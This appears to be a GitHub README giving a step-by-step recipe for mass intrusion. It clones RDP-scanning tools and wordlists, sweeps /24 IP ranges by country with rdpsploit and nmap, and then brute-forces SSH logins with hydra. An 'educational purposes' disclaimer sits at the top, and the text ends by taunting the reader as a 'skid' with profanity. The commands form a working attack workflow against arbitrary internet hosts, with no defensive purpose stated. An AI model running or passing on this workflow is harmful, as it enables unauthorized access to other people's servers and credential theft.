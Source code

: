 I am not respnsible for any trouble you get yourself into i am just providin this for educational purposes ONLY!!

Comands using Kali Linux

git clone https://github.com/Portz77/VPS-RDP
git clone https://github.com/Hood3dRob1n/Linux-RDP
git clone https://github.com/jeanphorn/wordlist

cd /Directory/Linux-RDP
./rdp_ranger.sh -G
"type number of country you want"
./rdpsploit.sh -G
"type number of country you want"
./rdpsploit.sh -F 1000
3
./rdpsploit.sh -R <one of the listed IP's>/24
3

Now there's a list of a bunch of ip's that you can record for later
Open a new terminal window

cd /directory/wordlist
ls (make sure there's 3 files named usernames.txt and passlist.txt and ssh_passwd.txt)

nmap -sn <one of the IP's from earlier>/24
nmap -sV -p 22 (ssh port) <same IP>
hydra
hydra -L usernames.txt -P passlist.txt -t 8 <IP> ssh

There u go skid. enjoy fucker

